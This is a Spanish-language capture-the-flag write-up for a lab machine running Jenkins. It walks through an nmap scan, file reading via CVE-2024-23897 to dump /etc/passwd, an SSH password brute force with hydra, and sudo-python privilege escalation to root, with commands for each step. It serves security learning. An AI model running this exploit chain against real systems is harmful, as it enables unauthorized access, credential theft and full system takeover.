

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que tenemos el puerto 8080 con un servibio de web con el protocolo http. Asi que vamos a ver que tiene.


Vemos que muestra un login. Vamos a ver que tecnologias están corriendo en la web. Analizando bien la web, vemos que nos muestra que trata de un programa llamado jenkins, para ello buscaremos el exploit.

```
CVE-2024-23897

exploit: https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897

descargar repositorio:
git clone https://github.com/vulhub/vulhub.git
```


Una vez lo tenemos vamos a usarlo. Pero primero tenemos que descargar el archivo que de la siguiente ruta: `http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar`

```
wget http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```


finalmente vamos a explotarlo.
```
java -jar jenkins-cli.jar -noCertificateCheck -s http://172.17.0.2:8080 -http connect-node "@/etc/passwd"
```


Podemos observar que existe un usuario llamado bobby, así que vamos a hacer un ataque de fuerza bruta para podernos conectar via ssh.
```
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


Una vez tenemos las clabes, vamos entrar por ssh.
```
ssh-keygen -R 172.17.0.2

ssh bobby@172.17.0.2
password: chocolate
```


Una vez estamos dentro, vamos a ver si tiene binarios para escalar a root.
```
sudo -l
```


Ahora que tenemos el binario, vamos a escalar a root. Para ello tenemos que pasar por el usuario pinguinito,
```
sudo -u pinguinito /usr/bin/python3
import os
os.system("bash")
```


Una vez hayamos cambiado de usuario, tendremos que volver a ver los binarios con permisios.
```
sudo -l
```


Vemos que nos muestra el mismo binario pero con un archivo python, vamos a ver que contiene.
```
cat /opt/script.py
```


Una vez vemos el contenido del archivo, vamos a modificar el archivo para escalar a root (administrador).
```
chmod 744 /opt/script.py
echo "import os;" > /opt/script.py
echo 'os.system("/bin/bash")' >> /opt/script.py 
sudo /usr/bin/python3 /opt/script.py 
```


